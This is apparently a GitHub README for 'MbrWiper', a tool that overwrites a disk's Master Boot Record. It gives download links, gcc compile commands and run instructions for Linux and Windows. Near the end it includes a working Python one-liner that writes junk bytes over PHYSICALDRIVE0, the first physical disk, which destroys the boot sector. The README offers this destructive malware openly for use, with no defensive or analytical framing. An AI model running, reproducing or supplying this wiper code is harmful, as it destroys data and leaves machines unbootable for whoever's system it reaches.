 ![MbrWiper Logo](https://mauricelambert.github.io/info/c/security/MbrWiper_small.png "MbrWiper logo")

# MbrWiper

## Description

This file implements a little MBR Wiper.

## Requirements

 - No requirements

## Download

[Download binaries (Linux and Windows Libraries and examples) from latest github release](https://github.com/mauricelambert/MbrWiper/releases/latest).

## Compile

### Download sources

```bash
git clone https://github.com/mauricelambert/MbrWiper.git
cd MbrWiper
```

#### Windows

```bash
gcc -Wall -Wextra -Werror -O5 MbrWiper.c -o MbrWiper.exe
strip MbrWiper
```

#### Linux

```bash
gcc -Wall -Wextra -Werror -O5 MbrWiper.c -o MbrWiper.exe
strip MbrWiper.exe
```

## Usages

**Privileges required**

### Linux

```bash
./MbrWiper
```

### Windows

```bash
MbrWiper.exe
```

## MBR Wiper in python oneliner

```python
open("\\\\.\\PHYSICALDRIVE0", "rb+").write(b"a" * 512)
```

## Links

 - [Github](https://github.com/mauricelambert/MbrWiper/)
 - [Github - compiled executable](https://github.com/mauricelambert/MbrWiper/releases/latest/)
 - [SourceForce - compiled executable](https://sourceforge.net/projects/MbrWiper/files/)

## Licence

Licensed under the [GPL, version 3](https://www.gnu.org/licenses/).
